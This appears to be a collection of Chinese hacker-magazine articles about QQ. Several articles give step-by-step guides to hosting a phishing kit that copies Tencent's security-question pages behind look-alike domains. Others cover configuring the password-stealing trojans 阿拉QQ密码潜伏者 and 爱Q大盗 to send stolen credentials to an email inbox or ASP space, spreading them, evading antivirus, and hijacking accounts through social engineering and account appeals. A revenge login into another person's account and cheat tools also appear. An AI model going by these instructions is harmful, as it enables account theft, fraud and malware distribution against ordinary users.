好了，我们返回到WSockExpert中，此时已经捕捉到了很多包，其中有两条farmkey=******的数据，我们找到第一条，在下方显示的farmkey这条数据的值为“farmKey=86265a742a45a874d4a7b13f3365e785&cId=81&number=1&uId=674835802&farmTime=1262318141”，里面有一个“cId=81”，事实上这个81就是圣诞树的ID。ID获取到了，接下来就是把它应用到外挂程序中去，打开QQ伴侣的配置文件（system.ini），按照配置格式（序号=名称,ID,成熟时长,购买等级,购入价格,卖出单价,最高收益,总经验值,商店购买）进行修改后，得到“60=圣诞树,81,46800,0,0,0,0,0,0”，如图5。其中必须填的是“序号=名称,ID,成熟时长”，其它的几项都可以使用0来代替。如果大家不知道成熟时长是什么，到百度上搜索一下作物就出来了，还有序号不能跟前面的重复哟。一切搞定，任务终于变得轻松了起来，最后祝大家新年偷菜幸福快乐！

> （文章中所用到的WSockExpert已收录到光盘中）

# 自助手机版聊网全攻略

孤独

小菜我是个连手机也买不起的穷人，看着身边的朋友都使用手机上网，心里真是羡慕啊^^。好在自己有头脑和电脑，今天我就以手机腾讯网为例，教大家如何用电脑来上手机网。

## 一、修改UA

要想使用电脑上手机腾讯网，首先就需要一款能够解析WAP页面的浏览器，我推荐使用OPERA浏览器，直接使用OPERA浏览器就可以访问一些手机页面。由于有些手机网站会判断浏览器的UA（UserAgent的缩写，大家可以简单地理解成是浏览器的一种标识）是否为手机UA，如果不是的话就会跳转或显示无法打开页面，所以我们需要修改OPERA浏览器的UA。

我们先使用“WASPAC”对OPERA目录下的“opera.dll”文件进行脱壳，然后使用“WINHEX”打开脱壳后的文件，按“Ctrl+F”打开查找框，输入“MSIE”进行搜索，如图1，把有关“OPERA”的字符更改掉（注意更改的字数要一致），最好把它们更改成类似手机的UA，比如“Nokia 4.0”，如图2。修改好后把文件保存到OPERA目录下并替换原文件，打开“http://whatsmyuseragent.com/”就可以查看修改后的效果了，如图3。


## 二、寻找代理IP

想进入手机腾讯网，光改UA还不行，我们还需要一样东西——移动或联通的代理IP地址。获取代理最简单的方法，就是使用代理软件或者是在代理网站上寻找，但网上公布的那些代理很难进入手机腾讯网。要想获得好用的代理，最好还是自己动手才行。

我们打开“纯真IP数据库”，选中上方的“地址->IP段”，在“查询字段”栏中输入“移动”，然后点“查询”按钮，如图4，接下来再打开“ssport”端口扫描器，把与移动相关的IP段添加进去。IP地址段那么多，一段段地添加是不是觉得很累呢？为了方便大家的使用，我已经把移动和联通的IP地址段整理好了，使用时直接点击扫描器上的“读取”按钮，选择IP地址段文件就可以了。我们点击“端口设置”处的“增加”按钮，依次添加80、800、8000、8080、3128、9000端口，“超时”和扫描速度可以根据自己的网速和电脑情况进行调整，不了解的话保持默认就可以了，最后点击程序最上方的望远镜图标就可以进行扫描了，如图5。


图6

扫描完成后，点击“导出”来保存结果，接下来我们打开“亚伟代理”，按“Ctrl+O”选择保存出来的扫描结果，然后再按“Ctrl+G”验证全部代理，如图6。验证完毕后剩下来的就是能用的代理IP了（晚上验证时，效果会更好些）。

## 三、登录手机腾讯网

打开我们修改后的OPERA浏览器，选择“工具”→“首选项”→“高级”→“网络”→“代理服务器”，勾选上“HTTP”，把我们找到的代理IP和端口填进去，如图7，然后点“确定”退出。


图7


图8

现在到了最后一步了，我们在地址栏输入“http://wap.3g.qq.com/g?s?aid=index&sid=00”就可以打开手机腾讯网了（如果打不开或者打开的不是手机腾讯网，那么就需要更换一个代理了）。有的叉子也许会问，为什么不输入“3g.qq.com”来打开手机腾讯网呢？其实直接输入“3g.qq.com”也可以，只是能这样直接进入手机腾讯网的代理实在是太少了，上面的那个网址对代理的要求没有那么严格。我们可以在这里登录3GQQ，点亮手机腾讯网图标，如图8。如果你的代理足够好，还可以用来玩3GQQ幻想西游呢。

（文章中所用到的Opera（已改UA）、纯真IP数据库、亚伟代理1.6、ssport、代理txt、联通IP段txt、移动IP段txt已收录到光盘中）

# 钓你不是我的错

# QQ盗保


时至今日，盗几个QQ号已经不再是什么稀奇的事情了，反而有时候，当我们看着邮箱里成千上百封含有QQ密码的邮件时，不禁疑惑眼前的这些QQ是否能真的为自己所拥有？盗QQ的目的又何在？面对数量和质量的选择，我们会更偏重于哪一方呢？

有些小菜可能会发出感慨：现在盗QQ已经不再像以前那样，盗了QQ密码就等同于占有了QQ号码了！因为现在的QQ绝大多数都申请了第一或者第二代的密码保护，因此并不是我们不想据为己有，而是困难重重。除了要得到对方的QQ密码外，我们还得把对方的QQ密保问题更改掉，这样才能算是把对方的QQ号码完全地据为己有。本文我们要讨论的并不是如何使用木马来盗取别人的QQ密码，而是如何“钓”到对方的QQ密保。所谓姜太公钓鱼，愿者上钩，我们使用到的是一套ASP脚本的QQ密保钓鱼程序，如图1。当然前提是我们必须拥有一个支持ASP脚本的空间，好让我们放置QQ密保钓鱼程序才行。然后通过FTP把钓鱼程序上传到空间中，直接输入我们的空间地址加上钓鱼程序所在的目录路径，就可以打开钓鱼程序的页面了，如图2。


图1


图2


图3


图4


图5


图6

大家是不是觉得这个界面和腾讯账号中心的服务页面非常相似呢，这也正是网络钓鱼的魅力所在。当用户点击了“一代保护用户升级”，就会打开一个界面，要求用户填写QQ账号密码、证件号码、密码提示问题、答案和安全邮件地址等信息，如图3。当用户点击了“二代保护用户升级”，也会相应地打开一个界面，要求用户输入账号密码、证件号码、三个安全问题和答案等信息，如图4。

所有信息的录入和提交都是在我们的钓鱼程序中进行的，当用户点击提交后，程序就会把用户填写的这些信息自动记录在钓鱼程序的文件夹中。而我们接下来要做的就是在钓鱼网站的地址后面加上“admin.asp”，这样程序就会自动跳到后台登录页面，如图5，输入登录账号“admin”和密码“x”，就可以登录后台查看记录到的信息了，如图6。

是不是我们刚才提交的信息都出现在眼前了呢，其中第一行是我们提交二代密码保护时所填写的资料信息，有了这些信息后我们就可以随时登录用户的QQ更改密码，以及在QQ账号中心更改QQ密码保护了，这样才可以把用户的QQ账号完全地据为己有。至于如何完善和更好地伪装这个网络钓鱼程序，大家可以参考以下两点。

## 一、简短的域名

我们必须拥有一个相对简短并且带有诱惑力的域名，或者一些免费的二级转向域名也可以。在申请域名的时候我们就填写一些比较迷惑人的名字，以3322.org提供的转向域名为例，如图7。

“www-services-qq”为自定义的域名开头，当用户访问 `www-services-qq.go.3322.org` 时，就会直接跳转到我们之前预设好的钓鱼空间网站。还可以隐藏源空间域名地址，只要保持“使用Frame封装”为“是”状态就可以实现源地址域名的隐藏了，如图8。


## 二、QQ的钓鱼利器

关于自定义域名开头就要靠大家充分发挥自己的想象力了，不一定非要使用3322.org提供的域名转向服务，我们在百度上搜索一下免费二级域名就会找到很多的。在拥有了迷惑性的域名地址后，我们的钓鱼网站就更容易“骗”到别人来访问了。

尽管已经有了迷惑性的域名地址，但由于我们的QQ密保总不至于在论坛或者QQ上直接发送我们的钓鱼地址给对方，说对方的QQ密保存在危险什么的吧，这可是很容易引起对方的怀疑和不信任，因此我们可以利用一款小软件“QQ智能钓鱼工具”来帮助我们实现钓鱼。双击打开软件，在界面上只需要填写我们的网络钓鱼地址 `www-services-qq.go.3322.org` 就可以了，如图9。

点击“生成木马程序”后就会自动生成一个68K的服务端程序，我们可以把这个服务端程序通过捆绑软件或者挂马等途径来进行传播。当用户打开服务端10分钟后，程序就会自动扫描系统是否存在QQ的进程，如果存在的话就会自动把QQ的进程结束掉，并弹出一个模仿QQ异地登录提示的对话框，如图10。

无论对方点击“重新登录”还是“修改密码”，都会自动打开一个跳转到我们之前填写的网络钓鱼地址上，这样就可以让我们的钓鱼网址光明正大地出现了。如果不是特别有经验的用户，就会急着去填写信息，这样对方的QQ密码和QQ密保信息就都会被我们掌握。接下来要做的事情，相信叉子们都知道了吧！

## 三、支持ASP空间收信的盗Q木马

关于如何使用QQ木马进行QQ密码的盗取，在上期的杂志中已经介绍了爱Q大盗的使用，但细心的叉子们也会发现，爱Q大盗只支持邮箱收信却不支持ASP空间收信，而邮箱收信又有着很多的不稳定性。另外目前提供SMTP服务的邮箱也很少，因此本文我还要再介绍一款支持ASP空间收信的盗Q木马，它就是阿拉QQ密码潜伏者。

阿拉QQ密码潜伏者已经更新到了r6.1版，可以完全支持QQ2009的sp1到sp5、QQ2008的beta1到beta4以及QQ2007的所有版本，相信许多QQ小菜对这款盗号木马都不感到陌生吧，如图11。


阿拉QQ密码潜伏者支持邮箱和ASP空间两种收信方式，我主要介绍一下ASP空间收信的方法。首先我们把ASP收信文件目录下的 `ip.asp`、`mail.asp` 以及 `QQWry.Dat` 这三个文件上传到支持ASP脚本的空间上，其中 `mail.asp` 是配置文件，可以更改为别的文件名，但如果更改了，则在下面的ASP收信地址处也要更改成相应的文件名才行，其它两个文件的文件名是不可以更改的……然后在“ASP收信地址”处填上 `mail.asp` 文件在空间上的地址，比如“http://www.xxx.com/mail.asp”，可以点击上面的“测试asp地址”来测试空间是否能够收到信。在右边还可以设置运行N秒后结束QQ进程，为了避免用户的怀疑，可以把时间设置得久一些，最后点击“生成木马”就可以生成一个服务端程序了，可以通过前面所提到的方法进行木马的传播。

当有人运行了我们的QQ木马服务端程序，过了一会儿，对方的QQ就会掉线。当对方重新登录后，就会把对方的QQ密码发送到我们的ASP空间上了，我们只要打开ASP空间地址，并在后面加上前面已经修改过的“xxx.txt”文件名就可以看到盗到的QQ信息了，包括QQ账号、密码和IP地址，如图13。


看完本文，叉子们都应该知道自己的目的何在了吧，相信面对数量和质量的时候，叉子们的心中也都有数了，当然技术水平也又更进一步了！

> （文章中涉及到的QQ钓密保文件、QQ智能钓鱼工具、阿拉QQ密码潜伏者6.1版，已经收录在了光盘中）

# 再战特洛伊

对爱Q大盗的补充

hx小龙（白雪龙）

对上期杂志中的“再战特洛伊，将疯狂盗Q进行到底”这篇文章，我想大家还都留有余香吧，是否还在为“误中”爱Q大盗不想重装系统而烦恼？是否还在为爱Q大盗的邮箱收信不方便而遗憾呢？在QQ上经常有朋友问我，如何开启邮箱的SMTP服务，其实关于这个问题在以前的文章中曾经提到过，下面我就为大家一一解答上边的问题。

关于爱Q大盗的清除，既然我们要清除它，那么首先就要了解它的运行原理。木马运行后，在木马文件的相对路径会释放出一个批处理文件CQ.bat，如图1。我们使用记事本打开并查看它的内容，就可以清楚地看到，它调用了系统的“taskkill /im”命令强制关闭了我们的QQ程序，如图2。


```bat
taskkill /im qq.exe /f
del %0
```

既然我们知道了它的原理，那么接下来就逆向一下它，使用到的工具是E盾和狙剑。我们使用E盾作为防御，而狙剑则是杀毒。中毒后所有的文件夹都成了可执行程序，我们任意运行一个文件夹，比如我运行的是C盘的文件夹，可以看到E盾报警了，如图3、图4，病毒既访问了C盘根目录下的autorun.inf文件，又释放了temp.bat文件并运行。在temp.bat上点击右键，以编辑形式打开后，就看到了随机的命令行，如图5。

```bat
cacls "C:\Program Files\Windows Media Player\5" /d everyone /e
del %0
```

我们重新启动系统，打开狙剑，依次选择“基本功能”→“进程句柄”，点击右键选择“隐藏微软签名项”，可以看到其中就有一项为播放器，如图6，我们点击右键选择强...

# QQ宝典

……删除，然后再打开启动项功能，可以看到存在播放器的目录；如图7，继续点击右键选择“删除启动项”即可。接下来我们要做的就是删除所有 exe 感染的文件夹，当然别忘记了要在文件夹选项中选择“显示隐藏文件”。做到以上几点，大家的爱机就可以恢复了。


其实官方也已经做出了普通版爱Q大盗的专杀工具，但是却没有公布出来，所以叉子们只能自己手工来进行查杀了。近日也有朋友反映说，360可以强杀爱Q大盗，当然如果可以的话那样更好，只是要想斩草除根，还电脑一片清静，我还是希望大家能够依靠自己的双手来自力更生。

上期给大家带来的是“普及版”的“爱Q大盗”，而在文章发表不久，官方就出现了VIP版本的“爱Q大盗”。这款软件只有1.5M大小，规定只有VIP会员或者特殊会员才可以使用，在感染木马后，使用普通版本的清除方法也是无法清除的。

这个VIP版本支持ASP收信方式，这样大家就不用担心自己辛辛苦苦盗来的QQ却发不到指定的地方了，如图8。下面我们就来简单地配置一下空间收信：首先双击打开软件，点击图9中圈出的那个按钮，程序就会提示我们生成一个收信的ASP文件。大家把ASP收信文件生成在桌面上，并且上传到自己的免费空间中。

勾选上邮箱收信和ASP收信，最后点击“测试发信”，不一会儿我们就可以看到邮箱中出现了一封测试邮件了，如图10。我们再打开自己的FTP空间，也可以看到在空间中多出了一封命名为当日日期的TXT文档，里边保存的是什么内容就不用我说了吧，如图11。测试发信成功，一款稳定而又实用的盗号软件就为大家介绍到这里，在新的一年里希望大家的技术能更上一层楼！


一直在逃避邮箱无法收信的叉子们，现在大家的福音来了。上期给大家带来的是“普及版”的“爱Q大盗”，而在文章发表不久，官方就出现了VIP版本的“爱Q大盗”。（文章中涉及到的E盾、强剑、爱Q大盗9.0 sp5 VIP版，已经收录在了光盘中）


关于爱Q大盗，相信小菜们都非常熟悉了吧（关于爱Q大盗9.0的详细使用，大家可以参见最近两期的杂志），它以强大的功能和良好的免杀，成为了QQ盗号的首选利器，如图1。爱Q大盗的一个创举就在于：它放弃了明文密码，改为了截取密码HASH值，这也是QQ盗号木马中比较少有的。截取QQ密码的HASH值比较容易，但破解起来就比较困难了。针对这一问题，新的爱Q大盗V9.0再次选择了截取明文密码，这在很大程度上方便了盗号。

呢？没错，这就是QQ申诉！试想一下，如果我们得到了对方的QQ密码，而且又掌握了对方的敏感信息的话，那是不是也可以“找”回对方的QQ帐号呢？作为一名有经验的黑客，在筹划盗号时，一定会先通过聊天使对方产生好感，从而很容易地获取对方的一些敏感信息。换句话说，也就是“社工”。这些看起来毫无作用的信息，很有可能在申诉中成为成功的关键。

面对盗来的QQ帐号和密码，相信很多小菜都会有这样的疑问：这些QQ号能否真的变成自己的呢？答案当然是肯定的！从被盗者的角度来思考，一旦QQ号被盗了，又忘记了自己的密码保护资料，那怎样才能最有效地找回并修改自己的QQ密码呢？

我们在获取密码后，结合社工得到的相关信息，对对方的帐号进行申诉。很多人在申诉自己被盗的QQ时，经常会被无情地告知：“申诉失败！”这是因为他们在填写资料时，只求最多，不求最精。其实只要我们填写的资料足够有说服力，即使填得再少也会通过申诉的。


图1

我们完全可以查看对方的业务列表，至于具体的支付方式，我们可以登录对方的QQ直接查看等等，关键在于证据是否有足够的说服力。还有一点需要大家注意，就是“好友辅助申诉”，如图3。在提交的申诉单中，如果缺少了好友辅助申诉，80%是无法通过的。我们最好是先使用自己的QQ（据我测试，至少2个）加对方为好友，等7天后再开始申诉（腾讯对添加7天的好友会做相应记录），这样一来，申诉就会很容易通过了。申诉后要耐心地等待结果，一般腾讯会在8—72小时内处理。一旦申诉成功，对方所绑定的所有安全保护措施就会被全部解除，这个QQ也就从真正意义上属于我们了。


图3


图2

一般来说对方丢了号，肯定会对自己的QQ进行申诉的，大家还是适可而止吧，毕竟再好的QQ，盗来的也总是有点儿不是滋味，对吧！？

> （文章中所用到的爱Q大盗V9.0已收录到光盘中）

# QQ空间

## 爆外链运行到底

moyuboy


话说某日实在无聊，就去逛了下同学的QQ空间，随手点开了他的日志，却郁闷地发现这日志写得不怎么样，人气倒是挺旺的，如图1。这也太不公平了吧，虽然我写不出能和莎士比亚相媲美的文章，可再怎么样也总比他写的要好吧！

在百度和Google上一番搜索，终于找到了一个用来刷QQ空间日志的好东西，它就是超速刷QQ空间日志人气精灵，如图2。它不需要登录，也不需要使用小号，解压后直接双击运行“超速刷QQ空间人气.EXE”，然后在右上角输入想要刷的QQ号，点击下面的“读取日志”按钮，再在左面的窗口中使用鼠标选中一篇想要刷的日志，再点击一下“开始”按钮就行了。最快一秒可以刷10点哦，速度很快的吧，哈哈，一觉醒来刷个几万点实在是小菜一碟呀，如图3。

本以为我那同学就日志的人气比我厉害，可没想到他游戏基地的积分也比我高。这时我想到了以前曾经在X档案上介绍过的彬彬游戏基地刷分软件，于是就找出来用了下，感觉不是太好用，就到百度上搜索，结果找出了一个名叫“QQ空间游戏基地刷分工具[091119]”的东西，如图4。试用了一下，居然还可以使用。我在“分数”那栏里填了2147483646，然后点击“提交”，几秒钟后提示刷分成功。我进入空间看了一下，果然刷分成功了，如图5，是不是很令人兴奋呢？这个工具支持30个游戏的刷分，大家随便刷就是了！


图1


图2


图3


另外，如果大家还想刷QQ空间人气的话，我建议还是使用老牌的QQ空间人气精灵，我开了20个小号每天可以刷2000点。大家要是觉得这样刷得还少的话，再多开一些小号就行了。好了，大家赶快动手，开启外挂刷吧，祝叉子们都有一个人气强悍的QQ空间！

> （文章中涉及到的超速刷QQ空间日志人气精灵、QQ空间游戏基地刷分工具[091119]，已经收录在子龙盘中）

# 让我们的QQ飞车——远程刷QQ会员下载器


大家都知道，很多游戏的官方网站都会提供专用下载器来方便用户下载游戏客户端，如图1。然而，我们却不知道这个游戏文件所存放的地址，也无法使用这个下载器下载其它的文件。作为一名合格的叉子，遇到这种问题是绝不能放弃的，所以今天就让我们一起来为自己定制一款QQ专用下载器。


不过不能使用Windows系统自带的那个，我使用的是金山进程管理器，如图2。好了，我们运行下载器，就出现了如图3所示的界面。


打开任务管理器，找到下载器进程所对应的模块路径，如图4。我们点击右键选择定位文件，就打开了这个程序所在的目录，如图5。大家会发现什么？原来这个就是下载器程序的目录。到这里，第一步就圆满完成了！


## 一、准备工作

在定制下载器之前，我们先要准备一个工具，就是任务管理器。

## 二、开始动工

仔细观察这个目录，我们就会发现里面有一个 config.ini 和一个 image 文件夹，我们可以从这里做手脚，从而定制自己的下载器。看到这儿，相信一些小菜已经明白了。我们继续，打开 config.ini 文件，这里面的配置很容易理解，我都给出了详细的注释，如图6。


图5


图6

详细的配置介绍：

```ini
[download]（下载信息配置）
url="http://down.qq.com/ava/versiondownload/AVA_Client_Ver.0.2.6.exe"
save_file_name="AVA_Client_Ver.0.2.6.exe"
cust_id=10007016
regit_path="AVA_026_Full"

down_threadNum=5

### 旋风安装包的配置
xf_url="http://dl_dir.qq.com/qqfile/cyclone/download1.8.202.203.exe"
xf_file_name="download1.8.202.203.exe"
xf_web="http://x.soso.com/"

### 下载器的标题
[title]
title_name="AVA下载器"（标题）

### 图片大小491*197
[images]
images_num=1
image0="banner.bmp"
image0_url="http://x.soso.com/"

[feedback]
feedback_url="http://x5.qq.com/"

[gameinfo]
name_ver="026_Full"
date="2009-12-18"

[version]
client_ver=1
business_id=1016
cfg_ver=13
```

我们修改完毕后，点“保存”就行了。如果需要的话，我们还可以通过替换 image 目录下相应的图片来修改下载器的风格，这里我就不进行详细的介绍了。

## 三、成品展示

定制一款属于自己的QQ下载器，是不是非常简单呢？我更改后的最终效果如图7所示，不错吧，你也赶紧去定制一个吧！


图7

> （文章中所用到的金山进程管理器已收录到光盘中）

# 免杀小马

# 让盗Q操作更猛烈些吧！

## 一、“阿拉QQ密码潜伏者”简单配置

“阿拉QQ密码潜伏者”是一款可以盗取QQ2009所有版本及以前版本的QQ盗号软件。我们打开“阿拉QQ密码潜伏者”，可以看到它有两种收信方式，分别是邮箱收信和ASP空间收信，如图1。所谓收信也就是把别人的QQ帐号和密码信息发送到指定的邮箱或ASP空间的某个特定文件中。我推荐大家使用邮箱收信，因为使用ASP空间收信的话需要自己拥有ASP空间才行，对于我等小菜来说还是比较麻烦的。我们在“收信邮箱地址”栏填写自己的QQ邮箱地址，并把“ASP收信地址”栏中的默认内容全部删除掉，如图2。

其它的设置我们直接使用默认的就可以了，点击“设置完毕，生成木马”按钮，这时就会在软件的目录下生成我们的盗号木马了，如图3。有一点需要大家注意，不要在Vista系统下使用“阿拉QQ密码潜伏者”，因为兼容性的问题会让我们在生成小马时出现错误，如图4。

我测试过QQ邮箱，完全可以正常收信，如图5。至于其它的邮箱建议大家不要使用，如果非要使用的话，最好先测试一下。在填写了收信邮箱地址后点击下面的“测试邮箱”按钮，接着登录该邮箱查看是否能收到测试邮件（可能会在垃圾箱里）。


图1


图2


图3


图4


图5

## 二、脚踏实地，免杀一步一步来

接下来我们进行免杀。打开PEditor，点击“browse”按钮选中我们刚才生成的小马，如图6。此时大家看到一群英文和代码是不是害怕了，呵呵，其实我们只需要关注左上角“Entry Point”里的内容，把最后一位数字修改一下就行了。比如这里是“00014CC3”，我们修改最后一位数字，把3更改成9，也就是更改成“00014CC9”，然后点击“apply changes”按钮保存修改，如图7。


图6


## 三、完美免杀之思路解析

打开“怒剑狂花”软件，先选择木马，然后把“添加区段”和“是否备份”勾选上，接着点击“加花”按钮来完成加花操作，如图8。在“选择花指令”的下拉列表中有多种加花方式，大家可以随意选择，“区段名”和“区段大小”可以自定义。如果大家对这些并不了解的话，还是全使用默认的吧！

我们再给木马添加数字签名：大家不要管这是什么意思，我们看中的是结果，只要能达到免杀的效果就行。打开“添加数字签名”软件后先选择木马，然后点击“添加”按钮就行了，如图9。

在制作免杀前我们要备份好原来的木马，有时加壳或进行其它操作会删除原有文件；还有每做一步免杀我们都要实际测试一下，看木马是否还能正常运行，这个良好的习惯会提高免杀的效率与成功率；免杀没有固定的步骤，就像上文的免杀顺序可以随意安排一样，同一种方法也可以多次不同地使用，但前提是木马能否正常运行。

免杀其实就是让木马可以逃过杀毒软件的查杀，制作免杀是比较麻烦和耗时间的，大家一定要坚持住！免杀也是有有效期的，说不定我们制作好的免杀木马过不了多久就会被杀毒软件查杀了，那时我们就只能重操旧业再来免杀一次了。“免杀”与“被杀”永远是个没有尽头的循环。

只要别人运行了我们的小马，那么她/他的QQ密码就会发送到我们的邮箱了。文章的最后我再说下，即使你电脑中了盗Q木马，但它也盗不了你输入密码的方法。所以在输入密码时，我们最好不直接使用键盘，而是使用QQ登录界面中所提供的小键盘，或是使用系统自带的屏幕键盘（在“开始”－“运行”栏中输入“OSK”回车就会出来了）。

（文章中所用到的“阿拉QQ密码潜伏者”、PEditor、“怒剑狂花”和添加数字签名软件已经收录到光盘中）


# QQ被封后的聊天与偷菜

不知是因为学校领导为了防止大家因聊天而荒废工作，还是因为网管为了显示自己的生杀大权，最近的QQ又上不去了——QQ被封了。以前都是在网上找个代理来突破这种限制，但现在连自己都不好意思再使用了，何不好好利用一下腾讯已经正式推出的网页版QQ呢？

首先在浏览器的地址栏中输入“http://web.qq.com/”打开WebQQ页面，在右侧的“登录WebQQ”分别输入自己的QQ帐号、密码及验证码后点击“登录”按钮。腾讯将QQ聊天的好友等信息放在了页面的右侧，大致的样子与登录正式的QQ聊天软件差不多。左侧的页面中采取了标签式的结构，分别是“消息盒子”、“好友近况”、“好友印象”、“QQ音乐”和“浏览网页”。前面的几项不必说，我们来看最后一项“浏览网页”，单击“浏览网页”即可。


图2

“浏览网页”下，我们会发现其下“推荐”了9个基本上都与QQ相关的网页，特别是第5个“开心农场（QQ空间）”，如图1。点击之后就会出现与平时在QQ空间网页上玩开心农场时几乎完全一样的窗口，如图2。唯一的缺点就是窗口稍微小了点儿，有时在切换更新好友状态和在菜地中进行各种操作时必须拖动滚动条才行（即使是点击其中的“大窗口模式”也并不大，^-^）。

除此之外，剩下的就都是优点了：隐蔽性好——与聊天窗口一起集成镶嵌在了一个网页中（特别是如果你使用的浏览器是傲游多标签式浏览窗口时），不怕领导或同事一步闯进来；不怕掉线——如果在QQ空间里玩农场有超过一段时间未对农场进行任何操作的话，就会被提示重新登录，即使你一整天不动它也照样进行刷新好友状态偷菜。聊天、偷菜，两不误，还不赶快试试？

# 腾讯QQ网盘养BUG

丁济邦

某日，小菜我看了09年11期X档案上一篇叫做“免费Q-ZONE商城的挂件、播放器和皮肤”的文章，深受感想，于是就照着尝试了一下，弄个MP3播放器，还真跟作者说的一样，就是个挂件。于是我又往下看，发现了一个网址，说可以提供免费的FLASH播放器。我打开看了一下，还不错，能够播放自定义地址的文件。可是我想播放本地的文件呀，这时我想到了163的网盘，如图1，但可惜的是小菜我的积分根本就不够用，换不了网盘。于是我又想到了QQ邮箱，打开一看，哇，它可以使用哦，如图2。我上传了一个音乐文件，如图3，好了，尝试下载这个文件，成功了。

于是我就想，那么把文件的地址写在FLASH音乐地址上，这样不就能做成播放器了吗？我怀着激动的心情复制了文件的下载地址，新建了一个窗口，粘贴，按下了回车键。可是，网址却自动跳转到了文件中转站中！我蒙了，这可怎么办呀？貌似让我这样的穷人去开黄钻？不行，不能白看了这么多期的X呀，先冷静冷静……

突然，我想到了当我要点一个文件的时候会出现一行字：“正在获取下载地址中……”，如图4。这是否就是在获取真正的下载地址呢？赶快来行动。我使用的浏览器是傲游2，有一个网页嗅探器，打开后如图5所示。我们刷新一下这个网址，看到嗅探器的列表里有很多的记录了，这都不是我们想要的。单击“清空记录”按钮，列表里的内容全部都清空了。


图1


图2


图3


图4


图5

接下来就是最关键的一步了，我们按下载键，就会出现在获取下载地址中……这时网页嗅探器有了一条记录，如图6。点击右键，选择复制地址。好了，我们打开这个网页，如图7，看到了吧，这就是原始地址了！我们把它复制到地址栏中回车，就能下载到我们的文件了。腾讯能给我们50M的大小哦，只要多弄几个号，就能有超级免费的网盘了！

# 记一次特别的盗QQ反击！——通过黑客的木马熏蒸的QQ

### 写作义挑战

今天我要给大家说的，是我所经历的一次盗QQ实例。说起来，这事情的起源居然是我差点被别人盗了QQ。闲话不多说了，进入正题。那天我正在上网，跟QQ上玩黑的朋友们聊天，正起劲呢，突然我的QQ显示掉线了。这可不是什么好兆头，玩黑这么久了，第一感觉就是QQ被盗了。但是仔细一看，并没有异地登录的对话框。嗯，显然是木马终结了QQ程序的进程，如果我现在重新登录的话，QQ密码估计就不知道到谁的邮箱中去了。好吧，那我就暂时不登录，先找到这个木马再说！

挺容易的，我在C盘Windows目录下发现了一个360安全卫士的图标（自从玩黑后，对安全图标反而特别警惕了），这个很显然不合常理。于是，我把它剪切到桌面上，查看了一下属性，如图1，并没有发现什么可疑的地方，是360的信息，而且文件名字也是UPDATA，难道是360的升级文件？我错怪它了？但一想到刚才的QQ掉线事件，我坚定地告诉自己，这不可能！

接着，我就得来验证一下了，先给它脱了下壳，然后使用360杀毒软件查杀了一下，结果360大义灭亲地报毒了，如图2。360怎么会说自己的升级程序有病毒呢？不用想了，这肯定是伪装的，还加了个免杀的壳。既然壳已经脱了，那我就把程序载入到Restorator。

我把程序载入到Restorator.exe中来看看资源情况，果然在版本和图标下都有两个小箭头，如图3。这个就是表示被修改过了，资源伪装了。

好的，既然都找到你了，也确定你是病毒了，那我就不得不做点文章了！怎么着也得从这个木马中得到点什么信息啊！于是我把这个木马载入到C32ASM中，选择16进制编辑，如图4。既然是结束了我的QQ进程，那显然就是盗QQ的，那么我就来搜索一下QQ吧。弹出的信息令我大失所望，都是一些没有用的信息，比如QQ.EXE、QQ2009之类的。

我无奈地按着F3往下跳，还真是峰回路转了，居然看到了QQ邮件服务SMTP以及木马的配置信息，如图5。啊啊，这回发达了！收信和发信邮箱都是他的，发信是需要邮箱账号和密码的，而这个恰恰就是QQ的账号和密码，怎么样？大家都很熟悉吧？那么我就不客气了，敢盗哥的QQ，就先看把你的QQ整没了再说！

OK，我使用账号和密码登录了他的QQ，在QQ邮箱里又找到了很多QQ账号和密码信息。算了，就做做好事吧，把所有邮件都彻底删除。嗯，最后再给他留点儿小纪念，如图6。

好了，本次的QQ反击战完美谢幕了，我泡上杯浓茶，拿起手边的“黑客X档案”，夜已经很深了，谁在千里之外蹙着眉呢？

（文章中所用到的360安全卫士、Restorator和C32ASM已收录到光盘中）

# QQ农场玩外挂，祸害可不小

玩游戏，使用外挂效率高，但风险也很高。这次我给大家带来一个降低封号几率的方法，主要就是利用VBS脚本来实现，纯属懒人的做法，希望懒人们能够喜欢。

在第2期杂志中介绍了QQ农场ID的获取，于是我天天24小时给我家小姐挂农场，弄得她好开心。可是没过几天，农场连降了2级，小姐就不高兴了，威胁我不可以使用外挂，不然……像我们这样的计算机迷，整天看着代码发一整天的呆，哪有时间去守着农场，外挂开过头那也是正常的。分析降级的原因，就是因为外挂开得太长了，所以我就写了个VBS脚本来定时关掉外挂，隔几个小时后再开，以免一次性挂太久。

内容不多，为了让小菜们知道原理，我添加了详细的注释，具体代码如下：

```vb
On Error Resume Next '忽略所有的错误
Dim Link,task,IP '定义变量
Do 'Do循环开始
IP="." '定义为本地计算机
set Link=getobject("winmgmts:\\"& IP &"\\root\\cimv2") '连接到cimv2命名空间
set task=Link.execquery("select * from win32_process where name='BL.exe' or name='MC.exe'")
'查询进程MC.exe(牧场偷鸡小分队进程)、BL.exe(QQ伴侣进程)，并保存到task变量中，task是数组
for each i in task 'for循环
wscript.sleep 1200000 '睡眠20分钟，即外挂可以开20分钟
dim WSHshell
set WSHshell = wscript.createobject("wscript.shell")
WSHshell.run "cmd.exe /c taskkill /im mc.exe /f",0,true '执行关闭进程
WSHshell.run "cmd.exe /c taskkill /im bl.exe /f",0,true
next 'for循环结束标志
wscript.sleep 60000 '每1分钟检测一次
loop 'Do...loop循环
```

在QQ2008版本时，我们只要修改“QQres.dll”文件就可以在本地点亮所有业务的图标。虽然这招对于QQ2009已经失效了，但我还是找到了两个QQ2009的自慰方法，大家请接着往下看。

### 一、自慰会员

原本我是想把修改方法详细地写出来的，但是由于最近比较忙，所以只好把QQ2009 sp1-sp6自慰会员补丁提供给大家了。使用时我们先查看QQ版本，点击QQ面板上的“菜单”→“帮助”→“关于QQ2009”，如图1，然后根据QQ版本选择相应的补丁文件，替换QQ2009\Bin目录下的文件即可。在替换前希望大家先备份好原文件，以免需要时进行恢复。

如果大家觉得这样比较麻烦，还可以直接使用“QQ2009去广告助手V1.89”傻瓜化自慰会员工具，如图2。但是这款工具有的杀毒软件会报毒（在报毒时我们要点“允许”，否则无法自慰会员）。打好补丁后，登录QQ就可以看到效果了，如图3。经过测试，自慰会员可以使用表情涂鸦和屏蔽广告功能。

### 二、自慰皇冠 + VIP6

首先使用“RDB打包解包工具”对QQ根目录下的“Res.rdb”文件进行解包，如图4。然后打开解包的Res文件夹，找到“ConfigCenter\gradc.png”文件，这个就是级数的图标文件。我比较贪心，把它改成了皇冠，如图5。

